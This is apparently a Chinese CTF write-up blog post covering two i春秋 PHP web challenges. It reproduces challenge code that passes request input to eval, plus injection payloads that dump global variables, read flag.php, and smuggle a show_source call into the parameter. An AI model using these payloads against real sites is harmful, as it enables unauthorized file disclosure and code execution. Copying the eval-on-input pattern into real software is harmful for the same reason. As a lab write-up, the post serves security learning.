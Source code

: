 ```yaml
---
title: i 春秋 Web 练习记录
date: 2019-08-24 20:42:38
tags:
  - PHP
  - Hash
  - 古典密码与编码
  - SQLi
  - 文件上传
  - 反序列化
categories:
  - Web 安全
---
```


i 春秋上的题都是比赛真题，所以会比较有意思，也更复杂一些。



## 爆破 - 1
```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a)){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```
要求参数 `hello` 为纯字母，又看到 `eval(var_dump($$a));` 语句，可以想到使用 `$GLOBALS` 打印出所有变量，payload：
```
?hello=GLOBALS
```

等等，好像没爆破啊？感觉是非预期解。

## 爆破 - 2
```php
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval("var_dump($a);");
show_source(__FILE__);
```
提示 `flag` 不在变量中，那么只能直接读 `flag.php` 文件了，payload：
```
?hello=file('flag.php')
```
另一种 payload 则类似注入：
```
?hello=);show_source(‘flag.php’);//
```
